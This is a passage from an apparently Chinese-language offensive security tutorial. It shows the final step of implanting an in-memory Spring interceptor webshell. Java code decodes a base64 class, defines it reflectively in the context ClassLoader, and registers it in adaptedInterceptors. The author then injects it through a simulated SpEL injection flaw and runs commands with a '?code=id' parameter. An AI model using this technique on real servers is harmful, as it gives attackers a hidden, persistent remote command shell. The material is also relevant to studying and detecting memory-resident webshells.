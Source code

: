 

### 四. 注入 Interceptor

万事俱备，最后只要把第一步实现的恶意 Interceptor 类加入到 `adaptedInterceptors` 属性值中就可以了。

这里顺便讲个小技巧，可以把 `magicInterceptor` 类在当前线程上下文的 ClassLoader 中定义，然后再从其中取出来就可以获得类实例了。

```java
String className = "magicInterceptor";
String b64 = "......"; // magicInterceptor 类 class 的 base64 编码
byte[] bytes = sun.misc.BASE64Decoder.class.newInstance().decodeBuffer(b64);
java.lang.ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
try {
	classLoader.loadClass(className);
}catch (ClassNotFoundException e){
  java.lang.reflect.Method m0 = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
  m0.setAccessible(true);
  m0.invoke(classLoader, className, bytes, 0, bytes.length);
  adaptedInterceptors.add(classLoader.loadClass("magicInterceptor").newInstance());
}
```



最后，我模拟了一个有 SpEL 表达式注入漏洞的场景，然后通过利用漏洞来注入 Interceptor。

![](spel.png)



然后随便访问一个路径，参数加上 `?code=id` 就可以执行命令了

![](eval.png)
